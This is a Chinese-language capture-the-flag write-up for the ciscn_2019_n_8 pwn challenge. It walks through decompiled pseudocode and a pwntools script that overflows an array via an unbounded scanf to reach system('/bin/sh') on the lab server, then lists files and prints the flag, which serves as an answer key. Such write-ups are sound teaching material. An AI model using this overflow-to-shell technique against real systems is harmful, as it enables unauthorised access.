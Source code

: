 ```yaml
---
title: ciscn_2019_n_8
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

直接用最简单的脚本先进入靶机，随便输入点东西（这种脚本相当于在 `nc` 了）

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477)
r.interactive()
```

输出如下

```
What's your name?
ls
ls, Welcome!
Try do something~
```

看得出来这道题不太好混，那就下载附件

用 `checksec` 检查下程序位数，发现是 32 位，用 IDA（IDA 32）打开附件，直接找到 `main` 函数，按 F5 反汇编，得到如下伪代码

目标很明确，结合伪代码中我自己写的注释可知如何提权（即让程序走到 `system("/bin/sh")`）

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5); // 数组 var 是从用户输入中得到的
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL ) // 如果数组的第 13 位等于十六进制的 17
      system("/bin/sh"); // 提权，后面就能执行 ls，cat 等命令
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

## 填充数组

如果想要让 `var[13]` 为十六进制的 17，那么必须先将前面 `var[0]` ~ `var[12]` 全部填满，那么我们可以写出如下 Payload

```python
from pwn import *
r = remote("node4.buuoj.cn", 29477) # 远程连接
payload = b"0"*13*4 # 填充 var[0] ~ var[12]，一共 13 个位置，每个位置 4 个字节（因为是 int 类型）
payload += p32(17) # 将 var[13] 赋为在 32 位程序下的十六进制的 17
r.sendline(payload) # 发送 Payload
r.interactive() # 交互接管
```

## 攻入靶机

运行程序，此时已经提权，我们可以直接输入命令 `ls`，输出如下

```
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
```

发现有 `flag`，于是我们输入 `cat flag` 命令，最终结果如下

```
flag{d1808d00-2a39-4d18-a09b-647ba54fb495}
```